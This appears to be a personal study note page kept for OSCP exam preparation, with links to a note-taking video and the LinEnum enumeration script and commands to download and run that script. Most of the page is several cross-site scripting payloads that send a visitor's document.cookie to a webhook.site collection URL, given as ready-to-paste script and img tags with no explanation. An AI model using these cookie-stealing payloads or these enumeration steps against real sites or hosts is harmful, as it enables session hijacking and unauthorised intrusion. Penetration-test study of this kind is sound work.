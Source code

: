 ### 26082023Sat

[OSCP - How to Take Effective Notes](https://youtu.be/yYmDQY1zKKE?list=PLDrNMcTNhhYqZU1ySROli7Oc08mxe1tZR)

https://www.youtube.com/@c0nd4

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

```
wget -c https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

![[Pasted image 20230826201506.png]]

```
bash LinEnum.sh
```

https://github.com/GreyCorbel/admpwd/blob/master/Main/AdmPwd.PS/AdmPwd.PS.psd1

<script>
	document.write('<img src="[URL]?c='+document.cookie+'" />');
	</script>

<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'" />');</script>

```
<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'"/>')</script>
```

```
<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'"/>')</script>
```

```xml
<img src="[URL]?c=[COOKIE]"/>
```

```
<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221?c=[COOKIE]"/>
```

https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221